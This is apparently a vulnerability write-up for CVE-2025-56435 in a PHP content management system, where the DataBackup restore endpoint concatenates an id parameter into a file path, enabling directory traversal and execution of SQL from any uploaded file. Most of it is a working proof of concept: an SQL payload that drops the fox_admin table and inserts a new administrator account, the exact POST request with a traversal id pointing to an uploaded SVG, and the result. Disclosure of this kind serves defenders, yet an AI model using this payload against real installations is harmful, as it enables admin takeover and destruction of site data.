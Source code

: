 # -CVE-2025-56435
 CVE-2025-56435
The restore method under the app\admin\controller\DataBackup.php route obtains the parameter id ($sqlPath = app()->getRootPath(). 'data'. $id;). The id can be directly concatenated to... / Perform directory traversal
The for loop is also used to execute sql on the file in the path. Therefore, any image file with an sql statement can be uploaded and then restored through this method, and any sql statement can be executed

<img width="864" height="367" alt="image" src="https://github.com/user-attachments/assets/0093d223-f625-4dd8-8fed-804c1fec5db9" />

 
漏洞复现如下：
搭建环境后，任意上传一个图片文件，带sql语句如下（创建新用户）：
DROP TABLE IF EXISTS `fox_admin`;
CREATE TABLE `fox_admin` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `nickname` varchar(255) DEFAULT NULL COMMENT '昵称',
  `username` varchar(60) NOT NULL DEFAULT '' COMMENT '用户名',
  `password` varchar(64) NOT NULL DEFAULT '' COMMENT '登录密码；mb_password加密',
  `avatar` varchar(255) DEFAULT '' COMMENT '用户头像，相对于upload/avatar目录',
  `email` varchar(100) DEFAULT '' COMMENT '登录邮箱',
  `phone` bigint(20) unsigned DEFAULT NULL COMMENT '手机号',
  `status` tinyint(1) NOT NULL DEFAULT '1' COMMENT '用户状态 0：禁用； 1：启用',
  `register_time` datetime DEFAULT NULL COMMENT '注册时间',
  `last_login_ip` varchar(16) DEFAULT '' COMMENT '最后登录ip',
  `last_login_time` datetime DEFAULT NULL COMMENT '最后登录时间',
  `remark` varchar(100) DEFAULT NULL COMMENT '备注',
  `lock_time` datetime DEFAULT NULL COMMENT '账号锁定时间',
  PRIMARY KEY (`id`) USING BTREE,
  KEY `user_login_key` (`username`) USING BTREE
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=utf8 ROW_FORMAT=DYNAMIC COMMENT='后台用户表';

INSERT INTO `fox_admin` (
  `nickname`, 
  `username`, 
  `password`, 
  `avatar`, 
  `email`, 
  `phone`, 
  `status`, 
  `register_time`, 
  `last_login_ip`, 
  `last_login_time`, 
  `remark`, 
  `lock_time`
) VALUES (
  '测试管理员', 
  'test12311', 
  MD5('123QWQW@@'), 
  '/uploads/avatar/default.jpg', 
  'test12311@example.com', 
  13800138000, 
  1, 
  NOW(), 
  '', 
  NULL, 
  '通过SQL添加的测试账户', 
  NULL
);

 <img width="864" height="383" alt="image" src="https://github.com/user-attachments/assets/90eb7dc9-c031-4a8c-96c8-5bdabbfba917" />
<img width="863" height="418" alt="image" src="https://github.com/user-attachments/assets/b62f8bad-3770-4e60-8044-29266ae9042e" />
<img width="863" height="418" alt="image" src="https://github.com/user-attachments/assets/0680bb12-a9d1-4293-b22e-809ecb1fdcee" />

 
记录文件地址，执行sql语句
<img width="865" height="378" alt="image" src="https://github.com/user-attachments/assets/ecb5f20f-9523-4ed8-8236-2a8743346a2d" />

POST /index.php/admin2362/DataBackup/restore HTTP/1.1
Host: 192.168.187.92:82
Content-Length: 55
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.187.92:82
Referer: 
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=04c9924960eddfff731546b6e79bbe4a; access_192_168_187_92=1752108777
Connection: keep-alive

id=/1/../../uploads/files/20250710/25c300de9e16f965.svg
 
创建了新用户
http://192.168.187.92:82/index.php/admin2362/admin/index.html?columnId=11
<img width="864" height="371" alt="image" src="https://github.com/user-attachments/assets/b30d0bd9-cbb4-4f91-ac5a-e556694ebbad" />

 
